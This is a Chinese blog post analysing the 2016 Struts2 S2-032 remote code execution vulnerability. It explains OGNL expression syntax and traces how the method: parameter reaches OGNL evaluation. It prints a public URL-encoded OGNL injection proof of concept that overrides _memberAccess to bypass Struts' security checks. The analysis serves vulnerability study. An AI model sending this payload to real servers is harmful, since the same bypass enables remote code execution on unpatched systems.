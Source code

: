 ```yaml
---
layout:     post
title:      "Struts2 远程代码执行漏洞分析"
subtitle:   "S2-032"
data:       2016-04-29
author:     "dogewatch"
header-img: "img/home-bg-o.jpg"
tags:
    - web
---
```


> "gg"

## 前言

前天一大早起来在地铁上看到TK教主的微博里说Struts2又有漏洞了，去了测评后打开wooyun瞬间被各种命令执行刷屏了。本来想着要不要扫些网站刷点rank，然后又觉得这么做没任何意义，毕竟不想当一个工具小子或者是脚本小子。因为以前都没有分析过Struts2的漏洞，所以就想乘此机会搭个环境调一调这个漏洞具体是怎么回事的。
足足搞了一天，才搭了一个有S2-032漏洞的网站（在此表示对javaweb深恶痛绝）。不过在分析这个漏洞以前，需要先了解了解这一系列Struts2漏洞的罪魁祸首：OGNL表达式。

## OGNL

参考<a href="http://drops.wooyun.org/papers/340">这篇文章</a>（大部分引用原文），来聊一下这个OGNL表达式是个什么鬼。


OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。 OGNL三要素：

1. 表达式（Expression）

表达式是整个OGNL的核心，所有的OGNL操作都是针对表达式的解析后进行的。表达式会规定此次OGNL操作到底要干什么。我们可以看到，在上面的测试中，name、department.name等都是表达式，表示取name或者department中的name的值。OGNL支持很多类型的表达式，之后我们会看到更多。

2. 根对象（Root Object）

根对象可以理解为OGNL的操作对象。在表达式规定了“干什么”以后，你还需要指定到底“对谁干”。在上面的测试代码中，user就是根对象。这就意味着，我们需要对user这个对象去取name这个属性的值（对user这个对象去设置其中的department中的name属性值）。

3. 上下文环境（Context）

有了表达式和根对象，我们实际上已经可以使用OGNL的基本功能。例如，根据表达式对根对象进行取值或者设值工作。不过实际上，在OGNL的内部，所有的操作都会在一个特定的环境中运行，这个环境就是OGNL的上下文环境（Context）。说得再明白一些，就是这个上下文环境（Context），将规定OGNL的操作“在哪里干”。 OGN L的上下文环境是一个Map结构，称之为OgnlContext。上面我们提到的根对象（Root Object），事实上也会被加入到上下文环境中去，并且这将作为一个特殊的变量进行处理，具体就表现为针对根对象（Root Object）的存取操作的表达式是不需要增加#符号进行区分的。

OGNL表达式功能操作大体如下：

```

1. 基本对象树的访问
对象树的访问就是通过使用点号将对象的引用串联起来进行。
例如：xxxx，xxxx.xxxx，xxxx. xxxx. xxxx. xxxx. xxxx

2. 对容器变量的访问
对容器变量的访问，通过#符号加上表达式进行。
例如：#xxxx，#xxxx. xxxx，#xxxx.xxxxx. xxxx. xxxx. xxxx

3. 使用操作符号
OGNL表达式中能使用的操作符基本跟Java里的操作符一样，除了能使用 +, -, *, /, ++, --, ==, !=, = 等操作符之外，还能使用 mod, in, not in等。

4. 容器、数组、对象
OGNL支持对数组和ArrayList等容器的顺序访问：例如：group.users[0]
同时，OGNL支持对Map的按键值查找：
例如：#session['mySessionPropKey']
不仅如此，OGNL还支持容器的构造的表达式：
例如：{"green", "red", "blue"}构造一个List，#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}构造一个Map
你也可以通过任意类对象的构造函数进行对象新建：
例如：new Java.net.URL("xxxxxx/")

5. 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member或者@class@method(args)：
例如：@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources

6. 方法调用
直接通过类似Java的方法调用方式进行，你甚至可以传递参数：
例如：user.getName()，group.users.size()，group.containsUser(#requestUser)

7. 投影和选择
OGNL支持类似数据库中的投影（projection） 和选择（selection）。
投影就是选出集合中每个元素的相同属性组成新的集合，类似于关系数据库的字段操作。投影操作语法为 collection.{XXX}，其中XXX 是这个集合中每个元素的公共属性。
例如：group.userList.{username}将获得某个group中的所有user的name的列表。
选择就是过滤满足selection 条件的集合元素，类似于关系数据库的纪录操作。选择操作的语法为：collection.{X YYY}，其中X 是一个选择操作符，后面则是选择用的逻辑表达式。而选择操作符有三种：
? 选择满足条件的所有元素
^ 选择满足条件的第一个元素
$ 选择满足条件的最后一个元素
例如：group.userList.{? #txxx.xxx != null}将获得某个group中user的name不为空的user的列表。

```

由此可以看出，只要外部某些参数能够进入OGNL流程，那么理论上就可以执行恶意代码。而不幸的是，Struts2大量地使用了OGNL，从而导致其命令执行漏洞层出不穷。

## S2-032

这次爆出的漏洞其根本原因是在开启了动态方法调用以后，action?method：后的内容进入到了OGNL流程，导致了远程命令执行。

先上烂大街的POC：

```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23path%3d%23req.getRealPath(%23parameters.pp[0]),%23w%3d%23res.getWriter(),%23w.print(%23parameters.web[0]),%23w.print(%23parameters.path[0]),%23w.print(%23path),1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8&web=web&path=path%3a
```

poc经过的几个关键函数大体如下：

1.在DefaultActionMapper.java中，DefaultActionMapper方法将method的值存入到ActionMapping的method属性中。
![img](/img/post/s2-1.png)

2.在DefaultActionProxyFactory.java中，DefaultActionProxy方法将ActionMapping的method值经过escapeEcmaScript，escapeHtml4过滤后传到了ActionProxy的method属性中。
![img](/img/post/s2-3.png)

3.最后DefaultActionInvocation.java中的invokeAction将ActionProxy的method值放入到了ognlUtil.getValue()方法中执行表达式。
![img](/img/post/s2-5.png)
（吐槽下IEDA的debug功能，跟了好多遍才跟进这个方法）method值后面被加上的()也很容易被绕过。

将_memberAccess赋值成DEFAULT_MEMBER_ACCESS后就能绕过SecurityMemberAccess为false的限制。

## 后记

感觉分析S2的漏洞还是挺简单的，不过想想里面的流程就觉得要是挖出这样一个CVE目前还是差得有点远。今天比赛没进前十，心塞塞>_<